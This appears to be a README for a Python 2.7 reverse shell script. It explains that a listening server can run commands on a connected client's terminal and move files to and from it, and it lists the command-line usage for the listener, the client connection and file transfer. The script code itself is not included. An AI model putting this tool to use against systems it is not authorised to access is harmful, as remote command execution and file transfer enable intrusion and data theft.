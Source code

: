 # Python Reverse Shell

This is a python script that works as a basic reverse shell. If the script is running as a server it will wait until a client connects. The server will then be able to execute commands on the clients terminal. 

## Prerequisites

This script requires Python 2.7

## Getting Started

Help:
```
python reverse_shell.py -h
```

Starting the server:
```
python reverse_shell.py -l -p <desired_port>
```

Starting the client:
```
python reverse_shell.py -t <server_ip> -p <server_port>
```

Download files from client to the server:
```
<save_as_name> #download# <file_name>
```

Upload files from server to client:
```
<save_as_name> #upload# <file_name>
```